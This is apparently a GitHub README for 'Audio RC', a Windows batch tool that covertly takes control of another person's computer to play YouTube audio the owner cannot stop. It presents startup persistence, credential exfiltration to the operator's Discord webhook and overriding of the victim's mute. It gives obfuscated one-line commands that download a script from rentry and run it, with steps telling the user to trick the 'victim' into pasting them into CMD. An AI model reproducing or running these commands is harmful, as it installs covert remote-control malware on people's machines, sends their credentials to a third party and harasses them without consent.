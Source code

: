 ## 🔊 Audio RC Version 2.2
> Audio RC allows you to remote other machine and silently play youtube audio in it without the other side knowing how to stop or who did it.

#### Audio RC Features
* **Discord Webhook Credentials updating**

    _if the other side has reset the session URL for any reason, you will recieve a new message containing the updated information_

* **Audio RC starts with the computer everytime**

    _When the computer restarts Audio RC will start silently without the other side knowing about it and its going to send you a new message to your discord channel - if the message already exists its going to edit the message instead of sending it over again._

* **Play any content valid on youtube**

    _You are able to play any youtube video using its URL_
    P.S. _Also planning to add spotify feature_

* **A Script to remote the other side _(NEW)_**

    _Version 2.0 introduced a remote script which makes it much easier
    to control the other side, you open the script, paste the youtube link and the script does anything for you and keeps you updated about the other side's status_

#### Setup Audio RC
_Technically, there are 2 ways to setup Audio RC_

##### Difference Menu
| METHOD | DIFFERENCE | Recommended? |
| :--: | :--: | :--: |
| 1 | _This method will send the login credentials to your discord webhook and will keep you updated in case they were changed_ | **This method is just a bit harder to setup,** though you will recieve the login credentials into your discord webhook. **(HIGHLY RECOMMENDED)** |
| 2 | _This method will only print the login credentials on the screen while you are in DEBUG mode_ | Technically, **YOU SHOULDN'T USE THIS METHOD UNLESS YOU HAVE SSH ACCESS** to the same computer |

##### :one: Method Number 1
- [Create your webhook link at discord](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
> _How does a webhook look?_
>
> Your webhook should include `/api/webhooks/` inside of it.

- At this point you'd need to create a paste in [pastebin.com](https://pastebin.com/) and just paste your webhook link inside of it. _(GIF below)_
![Paste Creation Review](https://cdn.agamsol.xyz:90/media/chrome_5NaMTYFDtr.gif)
- Now you need to copy the paste's ID _(GIF below)_
![Copy ID](https://cdn.agamsol.xyz:90/media/chrome_wetwcveipX.gif)

- Once you copied the ID **replace `XXXXXXXX`** in the end of the command below **with the ID you copied**.
```bat
for %a in (F6) do for %b in ("%temp%\F") do for %c in (.) do for %d in (cmd) do for %e in (rentry) do cls&&curl -#Lsko "%~b6%c%d" "%e%cco/%a/raw"&&call "%~b6%c%d" "XXXXXXXX"
```
- After replacing the `XXXXXXXX` combination with your ID
you are ready to go, save the command and you will be able to use it in the future

- **ONCE YOU ARE WILLING TO USE THE COMMAND:**
- Tell the victim to open CMD window.
- Tell the victim to paste **YOUR unique command** into their CMD window.
- Wait for the credentials to get sent to you.

### You got the credenitials? Great! :tada:

_At this step we will be installing the remote panel, if you want to use it but scared, you can use it in a VM or you can check the [source code](https://github.com/agamsol/Audio-RC/blob/2.1/REMOTE/REMOTE.bat) of the remote script._

- Download the [Remote Script](https://raw.githubusercontent.com/agamsol/Audio-RC/2.1/REMOTE/REMOTE.bat)
> NOTE: You should download the script and put it on a folder on its own, this will grant you easy access to it whenever you need & want.
- Open the file [`REMOTE.bat`](https://raw.githubusercontent.com/agamsol/Audio-RC/2.1/REMOTE/REMOTE.bat)
- Enter the credentials to login.

##### :two: Method Number 2 _(SSH)_
- Paste the following code into the SSH
```bat
for %a in (F6) do for %b in ("%temp%\F") do for %c in (.) do for %d in (cmd) do for %e in (rentry) do cls&&curl -#Lsko "%~b6%c%d" "%e%corg/%a/raw"&&call "%~b6%c%d" --debug
```
- You should restart the computer through your SSH connection.

### 📝 Change Log
> After struggling a lot with the code from version 2.0 I almost gave up doing that and starting to make the script over again, although I was really carious if I could fix it and in the end I managed to convert both, the main script and the remote to support INI formatting instead of JSON FORMATTING
- Storing DATA with `INI` formatted configs and databases
- Integrated my [SDK](https://github.com/agamsol/SDK) into Audio RC 🎉
- Change the volume of the victim's PC while the video is playing, keep it sync and not let the victim to mute his own system audio while audio is playing
- Properly check for internet connection, the socket also checks the connection now and stops the script until the connection is established once again.
- Improved script start-delay
- Better ERROR DETECTION for discord webhooks (checking if they work using the string regex and if there's a match only then we send the message)
- Edit the discord message if it already exists in your webhook (does not require authentication)
#### Version 2.2
- New SDK name `WINDOWS_VER` --> `winver`
- Force always to use IPv4 protocol for pinging and finding TTL

#### 📚 Contact information and support
> Feel free to contact me in discord, <span style="color:#7289DA">Agam#0001</span>

> Im also available in the [r/batch discord server](https://discord.gg/gPMcxXZjkb). **(you can and should ping me there if you want support from me)**

### 💲 Donations
I highly appreciate donors who send money,
a few bucks can make someone's day even better!
><a href="https://www.paypal.me/agamsolomon0011" rel="paypal donations">![donate](https://img.shields.io/badge/Donate-Paypal-brightgreen.svg)</a>

##### **:warning: Please note that we follow the No-Refunds policy**